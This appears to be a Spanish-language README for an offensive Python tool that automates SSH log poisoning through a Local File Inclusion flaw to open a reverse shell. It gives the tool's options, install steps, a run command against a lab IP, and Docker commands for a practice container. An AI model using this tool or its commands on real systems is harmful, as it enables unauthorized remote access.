 # Log Poisoning SSH → Automated Reverse Shell

[Herramienta](<autopoisonSSH.py>) escrita en **Python** que permite obtener una **Reverse Shell** de forma automatizada mediante el envenenamiento de los logs relacionados con **SSH**, como **auth.log** o **btmp**. Para lograrlo, es necesario contar con una vulnerabilidad de Inclusión Local de Archivos (**LFI** - Local File Inclusion) o de Lectura Arbitraria de Archivos (Arbitrary File Read), lo que permite acceder y manipular dichos registros.

Las opciones disponibles son las siguientes:

```bash
usage: autopoisonSSH.py [-h] -u TARGET_URL -t-ip TARGET_IP -h-ip HOST_IP [-p TARGET_PORT] [-p-ssh TARGET_SSH_PORT] [-l LISTEN_PORT]

☠️ SSH Log Poisoning with LFI → Automated Reverse Shell ☠️

ej: python3 autopoison.py -u "http://172.17.0.2/vuln.php?file" -t-ip 172.17.0.1 -h-ip 172.17.0.2

options:
  -h, --help                                 show this help message and exit
  -u, --target-url          TARGET_URL       Target web url with PHP vulnerable file - ej: http://172.17.0.2/vuln.php?file
  -t-ip, --target-ip        TARGET_IP        Target IP - ej: 172.17.0.2
  -h-ip, --host-ip          HOST_IP          Host IP - ej: 172.17.0.1
                                             
  -p, --target-port         TARGET_PORT      Target http port                                                              (default =   80)
  -p-ssh, --target-ssh-port TARGET_SSH_PORT  Target ssh port                                                               (default =   22)
  -l, --listen-port         LISTEN_PORT      Listen port                                                                   (default = 4444)
```

---
## ¿Por que usar este Proyecto?

En el caso de que queramos explotar un **Log Poisoning** de la manera tradicional nos encontraremos con el inconveniente que vemos en la captura de pantalla por lo que con el uso de este script evitaremos dicho incovenintente gracias a la librería **paramiko** de **python**.

![Pasted image 20240806161520](https://github.com/user-attachments/assets/73c86309-aaa0-442f-afe7-33b87c10b374)

---
## Descarga

Nos clonamos el repositorio de la siguiente forma:
```bash
git clone https://github.com/Trr0r/autopoisonSSH
cd autopoisonSSH
```

Instalamos las librerías necesarias gracias a **pip3**:
```bash
pip3 install -r requirements.txt
```

---
## Uso

En primer lugar debemos detecar la ruta donde se acontecede el **LFI**:

![Pasted image 20240806161403](https://github.com/user-attachments/assets/9238bfd1-c0f2-4eef-abbf-6729aa0457ca)

En segundo y último lugar ejecutaremos el script pasándole los parámetros necesarios tal y como vemos a continuación:

```shell
python3 autopoisonSSH.py -u "http://172.17.0.2/index.php?filename" -t-ip 172.17.0.2 -h-ip 172.17.0.1
```

![Screenshoot POC](https://github.com/user-attachments/assets/815ab114-ac38-448b-af13-364e4a239aef)

---
## Puesta en Práctica

Una vez que tengamos el [Dockerfile](Dockerfile) descargado, ejecutaremos el siguiente comando posicionándonos en el mismo directorio donde se encuentra el [Dockerfile](Dockerfile).

```bash
docker build -t logpoisoning_image .
```

Tras correr el anterior comando, finalmente montaremos el contenedor gracias a la siguiente instrucción.

```bash
docker run -dit --name ssh_logpoisoning logpoisoning_image
```

---
### Advertencia legal

> [!WARNING]
> Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.
